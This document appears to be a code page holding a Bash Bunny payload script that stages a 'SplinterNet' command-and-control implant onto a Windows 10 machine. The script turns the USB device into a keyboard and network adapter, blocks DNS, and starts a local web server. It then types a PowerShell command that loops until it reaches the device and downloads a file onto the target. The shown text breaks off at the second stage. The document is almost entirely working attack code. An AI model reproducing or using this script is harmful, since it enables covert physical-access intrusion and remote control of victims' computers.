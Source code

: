 ### BASHBUNNY SCRIPT (payload.txt) for SPLINTERNET C2
```
#!/bin/bash
#
# Author: BLSOPS
# Version: Version 0.1
# Target: Windows 10
# Category: C2
# Attackmodes: HID, RNDIS_Ethernet
# Firmware: >= 1.3
#
# Quick HID attack to retrieve and run SplinterNet payload from BashBunny web server.
#
# | Attack Stage        | Description                              |
# | ------------------- | ---------------------------------------- |
# | Stage 1             | Copy SplinterNet C2 payload to target    |
# | Stage 2             | Executing SplinterNet C2 payload         
#

#SETUP
DUCKY_LANG de
ATTACKMODE RNDIS_ETHERNET HID
LED SETUP
#REQUIRETOOL Gohttp #This does NOT WORK

GET HOST_IP
GET SWITCH_POSITION

# DEFINE DIRECTORIES
PAYLOAD_DIR=/root/udisk/payloads/${SWITCH_POSITION}
SERVER_LOG=/tmp/server.log

# SERVER LOG
rm -f ${SERVER_LOG}

# START HTTP SERVER
iptables -A OUTPUT -p udp --dport 53 -j DROP # disallow outgoing dns requests so server starts immediately
/usr/bin/gohttp -p 80 -d /tmp/ > ${SERVER_LOG} 2>&1 &

# CHECK FOR PAYLOAD ON THE BB
if [ ! -f ${PAYLOAD_DIR}/ready.log ]; then
    LED FAIL1
    exit 1
fi

# COPY PAYLOAD FROM PAYLOAD DIR TO TMP ON BB
cp -R ${PAYLOAD_DIR}/* /tmp/ # any additional assets will be available in tmp

# CHECK FOR PAYLOAD ON THE BB
if [ ! -f /tmp/ready.log ]; then
    LED FAIL2
    exit 1
fi

# STAGE 1 - POWERSHELL DOWNLOAD BASHBUNNY PAYLOAD TO TARGET
LED STAGE1
RUN WIN "powershell.exe \"\$web=New-Object Net.WebClient; While (\$true) {If ((New-Object net.sockets.tcpclient ('${HOST_IP}','80')).Connected) {\$web.DownloadFile('http://${HOST_IP}/ready.log', 'C:\Users\Public\ready.log');exit}}\""

#STAGE 2 - VERIFY WEB REQUEST
LED STAGE2
```